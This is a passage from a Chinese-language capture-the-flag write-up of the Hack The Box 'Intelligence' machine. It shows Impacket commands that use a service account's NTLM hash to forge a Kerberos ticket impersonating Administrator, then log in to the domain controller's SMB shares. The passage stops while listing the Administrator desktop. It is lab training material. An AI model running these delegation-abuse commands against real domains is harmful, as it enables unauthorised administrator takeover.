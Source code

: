 现在将 Kali 设置为使用 NTP 作为其时间服务器，并从包装盒中进行更新:

```
┌──(root💀kali)-[~]
└─# timedatectl set-ntp true

┌──(root💀kali)-[~]
└─# ntpdate 10.10.10.248 8 Oct 22:52:49 ntpdate[1268]: step time server 10.10.10.248 offset +26079.737476 sec
```

我们看到我们的时钟被改变了。现在我们再次尝试 getST:

```
┌──(root💀kali)-[~]
└─# python3 /usr/share/doc/python3-impacket/examples/getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :d170ae19de30439df55d6430e12dd621 -impersonate administratorImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache

┌──(root💀kali)-[~]
└─# export KRB5CCNAME=Administrator.ccache
```

# 根标志

这次成功了。我们最终可以使用 Impacket smbclient 脚本以管理员身份进行连接:

```
┌──(root💀kali)-[~]
└─# impacket-smbclient Administrator@dc.intelligence.htb -k -no-passImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[-] [Errno Connection error (dc.intelligence.htb:445)] [Errno -2] Name or service not known
```

另一个问题！这次很简单，我忘记了将 DC 添加到我的 hosts 文件中:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# echo "10.10.10.248 dc.intelligence.htb" >> /etc/hosts
```

再试最后一次:

```
┌──(root💀kali)-[~]
└─# impacket-smbclient Administrator@dc.intelligence.htb -k -no-passImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation
Type help for list of commands
# shares
ADMIN$
C$
IPC$
IT
NETLOGON
SYSVOL
Users
# cd Users
# cd Administrator
# cd Desktop
# ls
drw-rw-rw-          0  Mon Apr 19 01:51:57 2021 .
drw-rw-rw-          0  Mon Apr 19 01:51:57 2021 ..
```